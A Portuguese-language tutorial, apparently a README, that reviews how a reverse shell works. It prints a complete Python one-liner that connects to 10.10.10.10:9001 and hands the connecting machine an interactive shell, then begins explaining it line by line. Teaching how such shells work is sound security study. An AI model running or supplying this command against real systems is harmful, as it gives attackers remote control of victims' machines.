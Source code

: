 
<h1 align="center">
   🔗 Code Review de um Reverse Shell
</h1>

<h2>👾  Descrição</h2>

Se você é um entusiasta do hacking e da Segurança da Informação com certeza você já usou ou já ouviu falar sobre o Reverse Shell Generator. É uma plataforma Web que você consegue utilizar um gerador de conexão reversa de diversos tipos de conexões para Windows, Linux e MAC, e com diferentes linguagens como: Python, C, Ruby e por ai vai.

Todo mundo sempre copia e cola um ou outro código de Shell reverso e percebendo isso resolvi questionar como realmente funciona um Reverse Shell. Será mesmo que é só copiar ou colar? Porque não podemos ir a fundo até os bits e opcodes e ver oque podemos aprender com isso? Bora lá!


<h3>👾  O código</h3>

~~~shellscript
RHOST="10.10.10.10";export RPORT=9001;python
-c 'import sys,socket,os,pty;s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
~~~~

   
Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!


~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
~~~~
